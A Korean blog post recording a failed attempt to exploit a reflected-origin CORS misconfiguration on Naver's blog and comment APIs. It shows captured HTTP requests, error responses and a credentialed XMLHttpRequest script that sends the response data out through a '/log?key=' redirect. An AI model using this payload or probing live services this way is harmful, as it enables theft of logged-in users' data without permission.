 # NAVER Blog

## 2020-02-13

### CORS 취약점 공략 시도
블로그에 글을 작성할 때 여러 API를 사용하는 것을 보고 취약점이 있는지 찾아보기로 했다.

Burp Suite로 요청을 체크하다가 가장 먼저 보였던 API는 `service_config` 였다.

```http
GET /api/blogpc001/v1/service_config HTTP/1.1
Host: platform.editor.naver.com

Origin: https://blog.naver.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
```

`Origin`에 입력하는 값이 그대로 응답에 사용되는지 확인하기 위해 값을 조작하여 요청을 보내봤다.

```http
Access-Control-Allow-Origin: https://www.test.com
Access-Control-Allow-Credentials: true
```

`Access-Control-Allow-Origin`에 입력한 값으로 응답이 오는 것을 확인했다. CORS 취약점을 실습하면서 사용했던 스크립트를 활용하여 공략을 시도해봤다.

```html
<!--https://portswigger.net/web-security/cors-->
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```

그러나 응답으로 다음과 같은 오류 메시지만 확인할 수 있었다.

```json
{"errorDetailMessage":"Not Registed Service(or not allow domain)"}
```

네이버 이외의 경로에서 API를 호출하는 경우에는 오류를 반환하는 것으로 보인다.

일단 다른 API도 확인해보기로 했다. 이번에는 `infra-popup`이다. 어떤 역할을 수행하는 API인지는 모르지만, 응답으로 어떤 토큰 값이 반환되는 것을 보고 공략이 가능하다면 의미가 있을 것 같았다.

```http
GET /api/blogpc001/v1/token/infra-popup HTTP/1.1
Host: platform.editor.naver.com

Origin: https://blog.naver.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
```

처음의 경우와 같이 `Origin`에 입력한 값이 응답에 그대로 사용되었기 때문에 스크립트에 해당 API의 URL을 넣고 요청을 보냈다. 그러나 처음의 경우와 같은 오류 메시지가 반환되었다.

이번에는 댓글을 등록할 때 사용되는 API를 찾아 요청을 보내봤다.

```http
POST /commentBox/cbox/web_naver_create_json.json?ticket=blog&templateId=default_pr&pool=cbox9 HTTP/1.1
Host: apis.naver.com

Origin: https://blog.naver.com
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
```

```json
{"success":false,"code":"9999","message":"Unknown error has occurred.","lang":null,"country":"KR","result":{},"date":"2020-02-13T08:54:22+0000"}
```

오류가 반환되어서 파라미터를 지우고 다시 스크립트를 작동시켰다.

```json
{"success":false,"code":"4001","message":"Wrong ticket.","lang":null,"country":"KR","result":{},"date":"2020-02-13T08:55:43+0000"}
```

내용은 다르지만 역시 오류가 반환되었다. API를 정상적으로 호출하지 않으면 오류를 반환하기 때문에 위에서 사용한 단순한 스크립트로는 공략이 어려울 것 같다.